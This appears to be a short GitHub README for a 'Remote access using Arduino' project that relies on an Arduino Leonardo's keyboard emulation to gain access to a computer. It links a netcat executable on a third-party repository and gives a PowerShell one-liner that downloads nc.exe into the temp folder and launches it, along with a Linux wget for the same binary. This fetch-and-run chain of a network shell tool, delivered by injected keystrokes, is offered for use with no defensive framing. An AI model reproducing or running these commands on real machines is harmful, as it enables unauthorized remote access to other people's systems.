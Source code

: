 <p align="center"><img src="Logo-small.png" alt="Mark Text" ></p>
<h1 align="center">Remote access using Arduino</h1>
<br>


##### Why we use Arduino Leonard ?

Because we need to access on keyboard so it depends on Arduino leonard. Also this project is very simple. You can design another creation algorithm

<!-- Downloads total -->

[NETCAT](https://github.com/s0l0n3t/netcat1221/raw/master/nc.exe)

```
Windows Powershell:
(new-object System.Net.WebClient).DownloadFile('netcat github url','%TEMP%\nc1221.exe'); Start-Process "%TEMP%\nc1221.exe"
Linux:
wget github.com/s0l0n3t/netcat1221/blob/master/nc.exe?raw=true
```
